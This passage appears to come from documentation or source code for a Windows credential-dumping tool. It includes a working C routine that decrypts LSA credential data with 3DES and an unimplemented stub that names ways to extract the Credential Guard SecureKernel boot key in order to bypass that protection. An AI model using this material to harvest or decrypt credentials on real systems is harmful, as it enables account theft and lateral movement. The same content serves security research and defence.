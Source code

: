### 3DES Decryption

```c
BOOL DecryptCredential(PVOID encryptedData, DWORD dataSize,
                       PVOID key, DWORD keySize) {
    BCRYPT_ALG_HANDLE hAlg = NULL;
    BCRYPT_KEY_HANDLE hKey = NULL;
    NTSTATUS status;

    // Open 3DES algorithm
    status = BCryptOpenAlgorithmProvider(&hAlg, BCRYPT_3DES_ALGORITHM,
                                        NULL, 0);
    if (!NT_SUCCESS(status))
        return FALSE;

    // Import key
    status = BCryptImportKey(hAlg, NULL, BCRYPT_KEY_DATA_BLOB,
                            &hKey, NULL, 0, key, keySize, 0);
    if (!NT_SUCCESS(status)) {
        BCryptCloseAlgorithmProvider(hAlg, 0);
        return FALSE;
    }

    // Decrypt in-place
    ULONG cbResult;
    status = BCryptDecrypt(hKey, encryptedData, dataSize, NULL,
                          NULL, 0, encryptedData, dataSize,
                          &cbResult, 0);

    BCryptDestroyKey(hKey);
    BCryptCloseAlgorithmProvider(hAlg, 0);

    return NT_SUCCESS(status);
}
```

## LSA Isolated / Credential Guard

### SecureKernel Boot Key

When Credential Guard is enabled, credentials are isolated in VTL1 (Virtual Trust Level 1) and require the SecureKernel boot key to decrypt.

```c
typedef struct _SECUREKERNEL_BOOT_KEY {
    BYTE key[32];  // 256-bit AES key
    BYTE iv[16];   // Initialization vector
} SECUREKERNEL_BOOT_KEY, *PSECUREKERNEL_BOOT_KEY;

// Location varies, typically in registry or kernel memory
BOOL ExtractSecureKernelBootKey(SECUREKERNEL_BOOT_KEY *pKey) {
    // Method 1: Extract from boot configuration
    // Method 2: Dump from kernel memory via driver
    // Method 3: Decrypt from registry hive

    // Implementation depends on specific bypass technique
    return FALSE;  // Not implemented in baseline
}
```
